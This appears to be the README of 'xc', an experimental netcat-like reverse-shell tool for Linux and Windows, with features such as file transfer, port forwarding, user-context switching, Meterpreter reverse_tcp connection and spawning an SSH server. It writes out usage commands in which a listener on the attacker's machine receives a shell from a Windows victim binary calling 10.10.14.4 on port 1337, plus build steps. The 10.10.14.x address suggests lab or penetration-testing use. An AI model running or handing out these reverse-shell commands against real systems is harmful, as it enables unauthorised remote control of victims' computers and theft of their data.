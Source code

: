 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental so pull requests are welcome :)

## Features

* File Up-/Download
* Port Forwarding
* Change user context
* Connect to Meterpreter Listener: [windows/linux]/x64/meterpreter/reverse_tcp)
* Quick vulnerability check for recent CVEs on Windows
* Plugin System
* Spawn SSH Server on Linux

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)


[![asciicast](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5.svg)](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5)

## Setup

Windows:
```
go get github.com/hashicorp/yamux
go build
```

Linux:
```
make
```

You probably want to replace the ssh keys in the keys folder if you plan to use the ssh server on linux. These will be used to spawn a ssh server with the !ssh command on linux.